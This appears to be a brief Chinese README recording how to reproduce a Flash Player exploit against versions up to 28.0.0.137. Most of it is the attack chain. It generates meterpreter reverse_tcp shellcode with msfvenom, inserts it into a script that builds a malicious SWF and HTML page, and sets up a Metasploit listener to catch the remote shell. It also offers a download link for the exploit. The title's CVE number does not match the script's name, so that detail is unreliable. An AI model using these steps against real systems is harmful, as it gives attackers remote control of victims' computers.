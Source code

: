 `CVE-2018-4787 复现记录`

    漏洞程序:Adobe Flash

    影响版本:
    Adobe Flash 28.0.0.137及其之前的版本



    Msfvenom生成shellcode
    msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -a x86 --platform win -f py > shellcode.txt 
    吧shellcode.txt里的shellcode覆盖py脚本里的shellcode
    然后访问
    Metasploit Listen
    use exploit/multi/handler
    set LHOST IP
    set LPORT 4444
    set payload windows/meterpreter/reverse_tcp 
    #cve-2018-4878.py为exploit生成脚本，shellcode用metasploit生成，默认的为Windows弹计算器的payload。
    #exploit.swf和index.html为cve-2018-4878.py生成的利用页面。
    
    视频与EXP链接：https://pan.baidu.com/s/15_obJtypew2RmqCux5Fdow 密码：1r6f
